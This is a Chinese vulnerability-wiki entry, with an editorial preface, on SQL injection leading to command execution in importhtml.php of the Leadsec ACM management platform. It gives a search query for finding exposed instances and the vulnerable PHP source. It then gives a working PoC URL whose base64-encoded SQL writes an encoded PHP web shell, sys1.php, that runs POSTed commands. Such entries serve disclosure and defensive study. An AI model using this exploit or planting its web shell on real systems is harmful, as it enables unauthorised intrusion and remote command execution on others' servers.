


# 网御-Leadsec-ACM管理平台-importhtml.php-远程命令执行漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：网御Leadsec ACM importhtml
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：需数据库FILE/secure_file_priv及可写web根前提；version产品名无版本/修复，保留源码和原文
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 源码讨论SQL结果字段拼system，但示例base64明显select...into outfile写PHP是另一验证路径，应分开
2. 需数据库FILE/secure_file_priv及可写web根前提
3. 固定sys1.php有落地副作用需清理
4. global.func可能鉴权正文未核
5. version产品名无版本/修复，保留源码和原文

### 操作风险

固定sys1.php有落地副作用需清理

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

网御 Leadsec ACM管理平台 importhtml.php文件存在SQL注入导致 远程命令执行漏洞

## 漏洞影响

```
网御 Leadsec ACM管理平台
```

## 网络测绘

```
title="Leadsec ACM-管理平台"
```

## 漏洞复现

登录页面




出现漏洞的文件 **importhtml.php**

```php
<?php 
include_once("global.func.php");
if($_SESSION['language']!="english")
{
	require_once ("include/language_cn.php");
}
else 
{
	require_once ("include/language_en.php");
}

if(isset($_GET['type'])) $get_type = $_GET['type'];
if(isset($_GET['tab'])) $get_tab = $_GET['tab'];
if(isset($_GET['sql'])) $get_sql = $_GET['sql'];

if($get_type == "exporthtmlpost")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtml("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlchat")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlChat("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlmail")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlMail("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlwebsend")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlWebSend("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlwebrecv")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlWebRecv("$get_tab",stripslashes(base64_decode($get_sql)));
}
?>
```

跟踪exportHtmlMail函数

```php
function exportHtmlMail($filename,$sql){

	Header( "Expires: 0" );

	Header( "Pragma: public" );

	Header( "Cache-Control: must-revalidate, post-check=0, pre-check=0" );

	Header( "Cache-Control: public");

	Header( "Content-Type: application/octet-stream" );

	header("Accept-Ranges: bytes");

	header("Content-Disposition: attachment; filename=$filename.html");

	echo "<html>\n";

	echo "<head><title>报表</title></head>\n";

	echo "<body>\n";

	$conn = connOther();

	$result = mysql_query($sql,$conn);

	while ($data= mysql_fetch_array($result)){

		$post_content = "";

		if($data['mail_file_path'] == "(null)"){

			$post_content = "<font color=red>内容审计未启用</font>";

		}

		else{


			$post_filename=$data['mail_file_path'];

			$ifother = "";

			$ifother = ifExistOther($post_filename);

			if($ifother!=""){

				$post_filename = $ifother;

			}

			$str = "/usr/bin/cap2con $post_filename pop";

			system($str,$returnvalue);

			$post_filename=str_replace(".cap",".eml",$post_filename);

			$post_content = file_get_contents($post_filename);

			$rec=new mime_decode;

			$post_content=$rec->decode_mime_string($post_content);

			//...

		}

	}

}
```

这里可以发现通过base64解码后执行的Sql语句结果传入函数exportHtmlMail中调用system执行, 而 $post_filename 可控

```php
$str = "/usr/bin/cap2con $post_filename pop";
```

验证POC

```plain
https://xxx.xxx.xxx.xxx/importhtml.php?type=exporthtmlmail&tab=tb_RCtrlLog&sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvc3lzMS5waHAn
```

访问成功后会触发下载日志文件，再访问 sys1.php




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
